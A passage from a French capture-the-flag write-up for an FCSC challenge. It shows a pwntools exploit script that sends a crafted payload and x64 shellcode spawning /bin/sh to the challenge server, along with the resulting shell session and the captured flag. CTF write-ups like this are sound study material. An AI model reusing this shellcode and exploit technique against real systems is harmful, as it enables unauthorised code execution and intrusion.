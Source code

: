 

Une fois le fichier `pld.bin` généré, nous pouvons simplement l'envoyer en remote, puis entrer notre shellcode:

```python
#!/usr/bin/python

from pwn import *

r = remote('challenges2.france-cybersecurity-challenge.fr', 4004)

shellcode = "\xeb\x0e\x48\x31\xc0\x48\x89\xc6\x48\x89\xc2\xb0\x3b\x5f\x0f\x05\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00"

content = open("pld.bin", "rb").read()

shellcode = "\x90"*0x400 + shellcode

r.send(content)
r.send(shellcode)
r.interactive()
```

Remarque: le shellcode est tiré de mon Github: https://github.com/voydstack/shellcoding/blob/master/x64/shell/shell.asm et exécute un simple shell via `execve("/bin/sh", NULL, NULL)`.

Après exécution de l'exploit, nous récupérons bien un shell et pouvons obtenir le flag!

```
$ ./exploit.py 
[+] Opening connection to challenges2.france-cybersecurity-challenge.fr on port 4004: Done
[*] Switching to interactive mode
[>] Done encrypting 80 bytes.
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat flag
FCSC{8f61f83e18adf34d7b021ccde71aa6d24f74349125474b68601fbecbb2a55e4d}
```

Un grand merci à \J pour ce challenge très original et inhabituel qui aura retourné mon cerveau pendant de nombreuses heures! :D



### Bonus

Durant mes moments de désespoir sur ce challenge, je me suis aperçu que l'image fournie était en faite un vrai stéréogramme (http://ophtasurf.free.fr/stereogrammes/stereogramme.htm) dans lequel on aperçoit `FCSC FAKE FLAG`, un petit easter egg qui ne fait pas du bien au mental :D.
